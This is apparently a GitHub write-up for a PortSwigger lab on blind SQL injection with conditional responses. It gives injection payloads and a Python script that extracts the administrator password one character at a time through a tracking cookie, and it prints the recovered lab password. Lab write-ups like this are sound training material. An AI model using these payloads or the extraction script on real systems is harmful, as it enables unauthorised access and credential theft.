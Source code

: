 # [Lab:  Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

>This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.To solve the lab, log in as the administrator user.
>
>If it returns data then display  => `Welcome Back`
>

## Step 1 : Check vul sql blind
```sql
' or 1=1-- -

' || (select '' from dual) || '  =>Oke        => Oracle database 

1' union select '1' from users where username='administrator'-- -
```
![check1](https://github.com/tinasahara1/Vulnerable-CTF-/blob/7233da29d2d1d91889c23b1923f53f068c14163c/SQL/MySQL/image/check1.PNG)


## Step 2 : Check length password 
![check1](https://github.com/tinasahara1/Vulnerable-CTF-/blob/7233da29d2d1d91889c23b1923f53f068c14163c/SQL/MySQL/image/check2.PNG)

=> Length of administrator password : 20 

## Step3 : Use the substring to find the first letter of password 
`SUBSTRING(string, start, length)`

`1. Create payload to check password `

```py
import string

chars = string.printable[:-6]
f = open('abc.txt',"w")

for c in chars:
	with open("abc.txt","a") as f :
		f.write(c + "\n")

```

`2. Use burp suite intruder `

![check](https://github.com/tinasahara1/Vulnerable-CTF-/blob/7233da29d2d1d91889c23b1923f53f068c14163c/SQL/MySQL/image/check_3.png)

=> The first letter is 't'

## Step 4 : Code py to find full letter of password
```py
import string
import requests

url='https://acfb1fcd1f5d9cb4c0067543004e007f.web-security-academy.net/'
chars = string.printable[:-6]
#print(chars)
admin_pass=''
i=1
s=requests.Session()
s.get(url)

while True:
	for c in chars:
		payload = f"1' union select '1' from users where username='administrator' and substring(password,{i},1)='{c}'-- -"
		cookie1={"TrackingId":payload}
		r = requests.get(url,cookies=cookie1)
		print(c)
		if 'Welcome' in r.text :
			print('okeeeeeeeeeee')
			admin_pass+=c 
			i+=1
			print(admin_pass)
			break
		if(i==21):
			exit()

```

![check4](https://github.com/tinasahara1/Vulnerable-CTF-/blob/7233da29d2d1d91889c23b1923f53f068c14163c/SQL/MySQL/image/check4.PNG)

=> Pass : `tdbnwdqkghsguyxqkywa`

## Step 5 : login user : `administrator` with password : `tdbnwdqkghsguyxqkywa`
![ok](https://github.com/tinasahara1/Vulnerable-CTF-/blob/7233da29d2d1d91889c23b1923f53f068c14163c/SQL/MySQL/image/oke.PNG)





